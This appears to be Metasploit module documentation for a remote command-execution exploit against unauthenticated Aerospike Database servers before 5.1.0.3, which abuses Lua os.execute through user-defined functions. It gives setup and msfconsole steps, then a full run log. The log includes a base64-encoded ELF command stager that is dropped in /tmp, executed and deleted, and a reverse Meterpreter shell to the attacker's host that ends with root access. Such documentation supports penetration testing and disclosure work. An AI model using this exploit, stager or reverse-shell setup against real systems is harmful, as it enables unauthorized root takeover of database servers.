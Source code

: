 ## Vulnerable Application

Aerospike Database versions before 5.1.0.3 permitted
user-defined functions (UDF) to call the `os.execute`
Lua function.

This module creates a UDF utilising this function to
execute arbitrary operating system commands with the
privileges of the user running the Aerospike service.

This module does not support authentication; however
Aerospike Database Community Edition does not enable
authentication by default.

This module has been tested successfully on Ubuntu
with Aerospike Database Community Edition versions
4.9.0.5, 4.9.0.11 and 5.0.0.10.


## Verification Steps

Download a vulnerable version of Aerospike Database Community Edition from:

* https://www.aerospike.com/artifacts/aerospike-server-community/

Decompress the compressed `.tgz` software installer archive file:

```
$ gunzip aerospike-server-community-5.0.0.10-ubuntu18.04.tgz
$ tar xvf aerospike-server-community-5.0.0.10-ubuntu18.04.tar
```

Install:

```
$ cd aerospike-server-community-5.0.0.10-ubuntu18.04
$ sudo ./asinstall
```

Start the `aerospike` service:

```
$ sudo service aerospike start
```

1. Start msfconsole
1. Do: `use exploit/linux/misc/aerospike_database_udf_cmd_exec`
1. Do: `set RHOSTS [IP]`
1. Do: `set target [target]`
1. Do: `set payload [payload]`
1. Do: `set LHOST [IP]`
1. Do: `exploit`


## Options

### UDF_DIRECTORY

Directory where Lua UDF files are stored (Default: `/opt/aerospike/usr/udf/lua/`)


## Scenarios

### Aerospike Database Community Edition version 5.0.0.10 on Ubuntu 20.04 (x64)

```
msf6 > use exploit/linux/misc/aerospike_database_udf_cmd_exec 
[*] Using configured payload cmd/unix/reverse
msf6 exploit(linux/misc/aerospike_database_udf_cmd_exec) > set rhost 172.16.191.208
rhost => 172.16.191.208
msf6 exploit(linux/misc/aerospike_database_udf_cmd_exec) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Unix Command
   1   Linux (Dropper)


msf6 exploit(linux/misc/aerospike_database_udf_cmd_exec) > set target 1
target => 1
msf6 exploit(linux/misc/aerospike_database_udf_cmd_exec) > set payload
payload => linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/misc/aerospike_database_udf_cmd_exec) > set verbose true
verbose => true
msf6 exploit(linux/misc/aerospike_database_udf_cmd_exec) > set lhost 172.16.191.165 
lhost => 172.16.191.165
msf6 exploit(linux/misc/aerospike_database_udf_cmd_exec) > run

[*] Started reverse TCP handler on 172.16.191.165:4444 
[*] 172.16.191.208:3000 - Executing automatic check (disable AutoCheck to override)
[*] 172.16.191.208:3000 - Aerospike Database version 5.0.0.10
[+] 172.16.191.208:3000 - The target appears to be vulnerable.
[*] 172.16.191.208:3000 - Sending payload (123 bytes) ...
[*] 172.16.191.208:3000 - Generated command stager: ["echo -n f0VMRgEBAQAAAAAAAAAAAAIAAwABAAAAVIAECDQAAAAAAAAAAAAAADQAIAABAAAAAAAAAAEAAAAAAAAAAIAECACABAjPAAAASgEAAAcAAAAAEAAAagpeMdv341NDU2oCsGaJ4c2Al1torBC/pWgCABFcieFqZlhQUVeJ4UPNgIXAeRlOdD1oogAAAFhqAGoFieMxyc2AhcB5vesnsge5ABAAAInjwesMweMMsH3NgIXAeBBbieGZsmqwA82AhcB4Av/huAEAAAC7AQAAAM2A>>'/tmp/zqOkT.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/qXNWk' < '/tmp/zqOkT.b64' ; chmod +x '/tmp/qXNWk' ; '/tmp/qXNWk' & sleep 2 ; rm -f '/tmp/qXNWk' ; rm -f '/tmp/zqOkT.b64'"]
[*] 172.16.191.208:3000 - Creating UDF 'DpdWZwYHiuZvjods.lua' ...
[*] Transmitting intermediate stager...(106 bytes)
[*] Sending stage (976712 bytes) to 172.16.191.208
[*] 172.16.191.208:3000 - UDF 'DpdWZwYHiuZvjods.lua' removed successfully
[*] Meterpreter session 1 opened (172.16.191.165:4444 -> 172.16.191.208:55852) at 2020-12-05 09:09:27 -0500
[*] Transmitting intermediate stager...(106 bytes)
[*] 172.16.191.208:3000 - Command Stager progress - 100.00% done (773/773 bytes)

meterpreter > getuid
Server username: root @ ubuntu (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : ubuntu.local
OS           : Ubuntu 20.04 (Linux 5.4.0-53-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > 
```

